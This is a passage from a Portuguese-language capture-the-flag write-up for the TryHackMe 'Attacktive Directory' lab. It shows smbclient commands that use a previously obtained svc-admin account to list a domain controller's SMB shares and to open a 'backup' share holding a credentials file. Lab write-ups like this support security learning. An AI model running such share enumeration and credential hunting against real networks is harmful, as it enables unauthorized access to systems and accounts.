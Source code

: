  ![smbclient](smbclient.png)

 ### **3.** **How many remote shares is the server listing?**

 Com o smbclient, podemos listar os compartilhamentos disponíveis com o comando "`smbclient -L 10.10.185.51 -U svc-admin`".

 ```bash
 ╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   17:10:18 ╰──➤ smbclient -L 10.10.185.51 -U svc-admin
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.185.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

 Como podemos ver, o servidor está listando 6 compartilhamentos.

 ### **4.** **There is one particular share that we have access to that contains a text file. Which share is it?**

 Dentre todas as pastas listadas a que mais chamou a atenção foi a pasta "`backup`", vamos entrar nela e ver o que temos.

 Para isso vamos utilizar o comando "`smbclient \\\\10.10.185.51\\backup -U svc-admin`"

 ```bash
 ╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   17:13:26
╰──➤ smbclient \\\\10.10.185.51\\backup -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 16:08:39 2020
  ..                                  D        0  Sat Apr  4 16:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 16:08:53 2020

                8247551 blocks of size 4096. 3554649 blocks available
```
